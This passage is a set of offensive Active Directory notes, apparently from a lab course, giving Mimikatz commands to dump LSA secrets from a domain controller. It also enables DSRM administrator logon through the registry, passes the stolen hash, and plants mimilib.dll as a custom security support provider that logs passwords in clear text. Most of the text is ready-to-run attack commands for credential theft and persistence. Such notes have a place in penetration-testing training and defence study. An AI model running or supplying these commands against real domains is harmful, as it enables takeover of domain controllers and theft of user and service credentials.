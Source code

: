 ```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

* **First one is the DSRM local Administrator**
* Since it is the local administrator of the DC, we can pass the hash to authenticate.
* But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash.

```
Enter-PSSession -Computername dcorp-dc New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

FINALLY -

* Use below command to pass the hash

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:HASH /run:powershell.exe"'

ls \\dcorp-dc\C$
```

\-----------------------------------------------------------------------------------------------------

#### &#x20;                                                                       **BONUS! --> Order of usage :-**                                                                       **SILVER > DIAMOND > GOLDEN**

\-----------------------------------------------------------------------------------------------------

### Custom SSP - (pretty useful but pretty dangerous as well)

A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are

* NTLM
* Kerberos
* Wdigest
* CredSSP

Mimikatz provides a custom SSP - **mimilib.dll**. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

Usage either of the ways :-

* Drop the mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages -

```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
